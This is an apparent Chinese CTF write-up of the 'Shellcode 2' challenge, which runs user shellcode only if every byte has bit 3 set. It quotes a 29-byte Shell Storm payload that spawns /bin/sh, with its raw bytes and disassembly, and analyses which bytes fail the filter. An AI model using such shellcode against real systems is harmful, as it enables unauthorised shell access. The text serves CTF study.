

# Shellcode 2

上一版本的 Shellcoder 说：「Maybe next time we should add more architectures」…

我还以为 Shellcoder 2 会要求「三种不同架构」的共通语呢…

这次直接就是个 C 程序了。

大概是这样的：

```python
# 不是 Python，只是借用一下语法…
def main(argc: int, argv: list[str]) -> int:
    setbuf(_bss_start, 0);
    print("Welcome to 0ops shellcode trilogy.")
    print("This is shellcode II: Emission of light")
    print("Input your shellcode:")
    buf = mmap(addr='wherever', size=0x1000, prot=['read', 'write', 'exec'], flags=['anonymous', 'shared'], fd=0, offset=0)
    read('cin', buf, 0x1000)
    
    for ch in buf:
        if not ch & 8:
            print("I'm so foolish that I don't recognize this genius shellcode")
            exit(-1)
    
    # just execute it fine
    execute(buf)
    
```

也没有加很多限制，除了……输入的 Shellcode 中的每一个字节的（从低到高数）第 4 位必须是 1。

> 魔鬼…魔鬼…

先打开 Shell Storm 找一下有没有合用的吧…

先来一个最短的看一下：

```assembly
--[ asm
6a 42                   push   0x42
58                      pop    rax
fe c4                   inc    ah
48 99                   cqo
52                      push   rdx
48 bf 2f 62 69 6e 2f    movabs rdi, 0x68732f2f6e69622f
2f 73 68
57                      push   rdi
54                      push   rsp
5e                      pop    rsi
49 89 d0                mov    r8, rdx
49 89 d2                mov    r10, rdx
0f 05                   syscall
```

这可只有 29 个字节啊！

Python 跑一遍，这些字节不符合：

```
bad code 0x42
bad code 0xc4
bad code 0x52
bad code 0x62
bad code 0x73
bad code 0x57
bad code 0x54
bad code 0xd0
bad code 0xd2
bad code 0x5
```

其他都可能还可以绕过…但是你这个！`05`！居然！不能用！

`syscall` 怎么绕得过去啊！

再仔细想了一下，感觉不太可能通过正常手段构造出这笨蛋能 Recognize 的 Shellcode 执行。

因为，这家伙不会过滤换行符！

就算什么也不输入，他也会被这个 `\n` 绊死。

肯定得用一点 Pwn 手段了…

